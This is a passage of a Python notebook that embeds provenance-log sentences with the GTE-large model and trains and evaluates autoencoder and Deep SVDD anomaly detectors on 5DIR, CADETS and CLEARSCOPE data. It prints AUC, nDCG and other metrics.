| CLEARSCOPE  | ProcessAll  | intfloat/e5-mistral-7b-instruct                    | DeepSVDD     | 0.8759   | 0.9963   | 0.8462   | 0

### 2. `Alibaba-NLP/gte-large-en-v1.5`

#### Embedding generation

In [3]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'Alibaba-NLP/gte-large-en-v1.5'

# GTE-Large is a BERT-Large sized model (~400M params).
# It fits easily on 11GB VRAM. Batch Size 32 is safe.
BATCH_SIZE = 32

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

print(f"Loading model: {MODEL_NAME}...")

# Load Tokenizer & Model
# [CRITICAL] trust_remote_code=True is required for GTE's specific Long-Context architecture
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME, trust_remote_code=True)
model = AutoModel.from_pretrained(MODEL_NAME, trust_remote_code=True, torch_dtype=torch.float16)

# Move to GPU
print(f"Moving model to {device}...")
model.to(device)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: MEAN POOLING (Standard for GTE)
# ==========================================
def mean_pooling(token_embeddings, attention_mask):
    """
    Standard Mean Pooling.
    Averages the token embeddings, ignoring padding tokens.
    """
    input_mask_expanded = attention_mask.unsqueeze(-1).expand(token_embeddings.size()).float()
    return torch.sum(token_embeddings * input_mask_expanded, 1) / torch.clamp(input_mask_expanded.sum(1), min=1e-9)

def get_gte_embeddings(text_list, model, tokenizer, batch_size=32):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize
        # GTE supports 8192, but 2048 is a safe upper bound for logs to save memory/time
        batch_dict = tokenizer(
            batch_texts, 
            max_length=2048, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # [CRITICAL] GTE-v1.5 uses Mean Pooling (not CLS)
            embeddings = mean_pooling(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity/Anomaly Detection)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_gte_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_gte_large_v1_5"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save GTE-Large-v1.5 chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_gte_large.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All GTE-Large data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

Using device: CUDA
Loading model: Alibaba-NLP/gte-large-en-v1.5...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\Waleed\.cache\huggingface\hub\models--Alibaba-NLP--gte-large-en-v1.5. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)
c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\huggingf

Moving model to cuda...
Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (Alibaba-NLP/gte-large-en-v1.5)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...
    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEAR

#### Train test split

In [2]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your GTE-Large generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_gte_large_v1_5" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_gte_large_v1_5"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing GTE-Large suffixes
    key_name = filename.replace(".pkl", "").replace("_gte_large_v1_5", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR GTE-LARGE-V1.5!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_gte_large_v1_5
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_gte_large.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_gte_large_v1_5\5dir\train\ProcessAll_gte_large.pkl and final_train_test_split_gte_large_v1_5\5dir\test\ProcessAll_gte_large.pkl

Processing: 5dir_ProcessEvent_gte_large.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_gte_large_v1_5\5dir\train\ProcessEvent_gte_large.pkl and final_train_test_split_gte_large_v1_5\5dir\test\ProcessEvent_gte_large.pkl

Processing: 5dir_ProcessExec_gte_large.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 1024), Test: (

#### Training and saving `.pth` files

In [6]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
BASE_DIR = "final_train_test_split_gte_large_v1_5"
RESULTS_FILE = "results_all_autoencoders_gte_large_v1_5.csv"
MODEL_SAVE_DIR = "saved_weights_gte_large_v1_5"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15          
LR = 0.001          

# [FIXED] Alibaba-NLP/gte-Qwen2-1.5B uses 1536 dimensions. 
INPUT_DIM = 1536    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  
SPARSE_REG = 1e-4   
BETA = 4.0          
CAE_LAMBDA = 1e-4   

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()} | Expected Input Dim: {INPUT_DIM}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) 
        )
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) 
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)

# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    actual_dim = X_train.shape[1]
    
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(actual_dim).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(actual_dim).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(actual_dim).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(actual_dim).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(actual_dim).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(actual_dim).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta_val = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta_val * kld_loss
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time
    weight_filename = f"{performer}_{context}_gte_large_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    model.eval()
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE', 'GMVAE']:
            recon = model(tensor_test)[0]
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS (AS PER YOUR SAMPLE) ---
    auc = roc_auc_score(y_test, errors) if len(np.unique(y_test)) > 1 else 0.0
    try:
        # DCG based on model predictions
        dcg = dcg_score([y_test], [errors])
        # IDCG using true labels as perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = ['Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive']

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        train_dir, test_dir = os.path.join(BASE_DIR, performer, "train"), os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(train_dir) or not os.path.exists(test_dir): continue
            
        for file in [f for f in os.listdir(train_dir) if f.endswith('.pkl')]:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            try:
                with open(os.path.join(train_dir, file), 'rb') as f: X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test, y_test = pkg['X'], pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    res['Performer'], res['Context'] = performer, context
                    all_results.append(res)
                    # FULL LIVE LOGGING
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")
            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE & PRINT FULL RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*95 + "\nFINAL RESULTS SUMMARY (DCG & IDCG INCLUDED)\n" + "="*95)
    print(df_res.to_string(index=False))

Running on Device: CUDA | Expected Input Dim: 1536
------------------------------------------------------------

Processing: 5DIR - ProcessAll_gte_large
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9262 | nDCG: 0.308 (DCG: 1.3104, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.6223 | nDCG: 0.3022 (DCG: 1.2857, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9535 | nDCG: 0.352 (DCG: 1.4975, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.8912 | nDCG: 0.3286 (DCG: 1.398, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.6158 | nDCG: 0.2454 (DCG: 1.044, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.6149 | nDCG: 0.3012 (DCG: 1.2816, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.7713 | nDCG: 0.3093 (DCG: 1.3157, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9313 | nDCG: 0.3001 (DCG: 1.2769, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9268 | nDCG: 0.2961 (DCG: 1.26, IDCG: 4.2545)
    -> Training Robust... Done

In [6]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "gte_large_v1_5" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Alibaba-NLP/gte-large-en-v1.5 uses 1024 dimensions
INPUT_DIM = 1024 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. Load the saved weights using dynamic EMBEDDING_NAME
    weight_filename = f"{performer}_{context}_gte_large_{model_name.replace(' ', '')}.pth"
    weight_path = os.path.join(MODEL_SAVE_DIR, weight_filename)
     
    if not os.path.exists(weight_path):
        return None # Skip if weights don't exist
        
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found.")
                else:
                    all_results.append(res)
